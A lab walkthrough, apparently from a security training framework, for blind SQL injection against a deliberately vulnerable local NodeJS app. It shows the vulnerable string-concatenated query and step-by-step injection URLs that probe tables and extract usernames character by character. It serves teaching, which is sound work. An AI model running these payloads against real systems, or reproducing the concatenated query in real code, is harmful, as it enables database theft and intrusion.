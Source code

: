 # NodeJS - SQLI (Blind)

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/nodejs/SQLI-blind/1.png)

```
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI-blind/3.png)

```
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true (or 1=1). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI-blind/4.png)

```
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false (and 1=2). This should result in the application returning an error.

![](../../.gitbook/assets/nodejs/SQLI-blind/13.png)

```
http://localhost:5000/home/1 AND 1=2
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](../../.gitbook/assets/nodejs/SQLI-blind/6.png)

```
http://localhost:5000/home/1
```

![](../../.gitbook/assets/nodejs/SQLI-blind/7.png)

```
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](../../.gitbook/assets/nodejs/SQLI-blind/5.png)

```
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](../../.gitbook/assets/nodejs/SQLI-blind/8.png)

```
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](../../.gitbook/assets/nodejs/SQLI-blind/9.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](../../.gitbook/assets/java/SQLI-blind/10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](../../.gitbook/assets/nodejs/SQLI-blind/11.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](../../.gitbook/assets/nodejs/SQLI-blind/12.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}

